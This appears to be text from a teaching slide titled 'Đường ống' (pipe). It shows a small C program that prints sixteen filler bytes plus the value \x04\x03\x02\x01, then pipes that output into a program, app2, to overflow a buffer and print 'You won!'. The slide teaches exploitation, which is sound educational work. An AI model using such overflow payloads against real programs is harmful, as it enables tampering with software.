

# Đường ống
//File name: "redirect.c"
#include <stdio.h>
int main(){
	char st[ ]="aaaaaaaaaaaaaaaa\x04\x03\x02\x01";
	puts(st);
	return 0;
}
$ gcc redirect.c -o redirect
$ ./redirect | ./app2
Your name: You won!
$
26